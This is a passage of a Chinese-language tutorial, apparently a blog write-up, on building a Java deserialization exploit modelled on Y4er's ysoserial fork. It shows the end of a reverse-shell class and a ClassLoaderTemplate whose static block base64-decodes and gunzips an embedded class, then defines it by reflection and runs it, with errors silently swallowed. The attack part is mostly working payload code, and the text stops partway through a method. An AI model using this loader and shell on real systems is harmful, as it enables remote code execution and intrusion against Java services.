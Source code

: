 ```java
                    p.exitValue();
                    break;
                } catch (Exception e) {
                }
            }
            p.destroy();
            s.close();
        }catch (Exception e){}

    }

    public static void main(String[] args) {
        System.out.println(123);
    }
}
```
然后需要编写一个ClassLoader，让javassist从源中读取该类文件，并返回CtClass对该类文件的对象的引用，主要原因是因为要将shell.class 转换成base64编码进行写入，最后再通过classloader进行解码，再将其转换成bytecode，放入到Templates._bytecode中
这里参考的是[Y4er——ysoserial](https://github.com/Y4er/ysoserial)大哥更改后的项目
```java
package com.myproject.temp;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.lang.reflect.Method;
import java.net.URL;
import java.net.URLClassLoader;
import java.util.zip.GZIPInputStream;

public class ClassLoaderTemplate {
    static String b64;

    static {
        try {
            GZIPInputStream gzipInputStream = new GZIPInputStream(new ByteArrayInputStream(base64Decode(b64)));
            ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
            byte[] bs = new byte[4096];
            int read;
            while ((read = gzipInputStream.read(bs)) != -1) {
                byteArrayOutputStream.write(bs, 0, read);
            }
            byte[] bytes = byteArrayOutputStream.toByteArray();
            ClassLoader classLoader = new URLClassLoader(new URL[0], Thread.currentThread().getContextClassLoader());
            Method defineClass = classLoader.getClass().getSuperclass().getSuperclass().getDeclaredMethod("defineClass", byte[].class, int.class, int.class);
            defineClass.setAccessible(true);
            Class invoke = (Class) defineClass.invoke(classLoader, bytes, 0, bytes.length);
            invoke.newInstance();
        } catch (Exception e) {
            // e.printStackTrace();
        }
    }

    public static byte[] base64Decode(String bs) throws Exception {
        Class base64;
        byte[] value = null;
        try {
            base64 = Class.forName("java.util.Base64");
            Object decoder = base64.getMethod("getDecoder", null).invoke(base64, null);
            value = (byte[]) decoder.getClass().getMethod("decode", new Class[]{String.class}).invoke(decoder, new Object[]{bs});
```